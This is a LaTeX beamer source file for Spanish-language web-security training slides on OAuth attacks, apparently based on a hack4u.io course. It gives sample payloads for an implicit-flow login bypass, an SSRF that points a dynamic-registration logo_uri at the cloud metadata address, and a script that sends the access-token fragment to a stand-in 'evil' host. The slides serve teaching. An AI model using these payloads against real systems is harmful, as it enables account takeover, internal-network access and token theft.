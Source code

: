 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{OAuth --- implicit, reg. dinámico y proxy}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Bypass de login por flujo implícito
  \item POST /authenticate \{\textquotedbl{}email\textquotedbl{}:\textquotedbl{}admin@web.com\textquotedbl{}\}
  \item En el flujo implícito el cliente confía en datos NO firmados (email/id) del navegador $\rightarrow$ modificarlos para loguearse como otro usuario.
  \item SSRF vía registro dinámico de cliente (OpenID Connect)
  \item POST /reg \{\textquotedbl{}logo\_uri\textquotedbl{}:\textquotedbl{}http://169.254.169.254/latest/meta-data/\textquotedbl{}\}
  \item El registro dinámico OpenID acepta URLs (logo\_uri, jwks\_uri\dots{}) que el servidor solicita $\rightarrow$ SSRF a servicios internos / metadata cloud.
  \item Robo de access token con página proxy
  \item \textless{}script\textgreater{}top.location='//evil/?'+document.location.hash\textless{}/script\textgreater{}
  \item Si el redirect\_uri admite una ruta con JS/iframe controlable, una página proxy captura el fragmento (\#access\_token) y lo exfiltra.
  \item Nuevas técnicas del curso hack4u.io $\cdot$ complementan las slides OAuth 2.0 existentes $\cdot$ cf. PortSwigger OAuth
  \end{itemize}
\end{frame}

\section{Autenticación}

\begin{frame}[allowframebreaks]{Authentication Bypass}
\small
  \begin{itemize}
  \item HTTP Verb Tampering
  \end{itemize}
\end{frame}
\end{document}
